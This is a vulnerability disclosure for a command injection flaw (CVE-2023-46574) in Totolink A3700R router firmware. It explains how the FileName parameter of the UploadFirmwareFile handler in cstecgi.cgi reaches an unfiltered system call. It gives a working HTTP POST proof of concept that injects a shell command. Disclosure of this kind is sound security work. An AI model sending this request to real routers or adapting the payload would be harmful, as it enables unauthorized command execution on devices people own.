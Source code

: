 
### **Overview**：
Affected Device: Totolink A3700R 

Affected Firmware Version: V9.1.2u.6165_20211012 

Vulnerability: Command Injection, allowing arbitrary command execution 

Firmware Download Link: [Firmware Download Link](https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip) 

Report Email: [zwx918569613@gmail.com](mailto:zwx918569613@gmail.com)


![](Pasted%20image%2020231022165035.png)

### **Vulnerability**：

This vulnerability is located in the `cstecgi.cgi` function, specifically in the `FUN_0042f718` function alias known as `UploadFirmwareFile`.


![](Pasted%20image%2020231022165445.png)


The `cstecgi.cgi` uses the value of the `topicurl` parameter to handle different function interfaces. By constructing the `FileName` parameter, you can pass the encapsulated `doSystem` function, and since `doSystem` does not have input filtering, it is possible to achieve arbitrary command execution by constructing the right payload.


### **POC**:

To reproduce the vulnerability, you can use a real device or simulate it using QEMU. The following POC can be used to exploit it:


~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html?time=1697964093345
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1697964047:2
Connection: close


{"topicurl":"UploadFirmwareFile","FileName":";ls;"}
~~~

### **Impact**：

![](Pasted%20image%2020231022170210.png)



assigned : CVE-2023-46574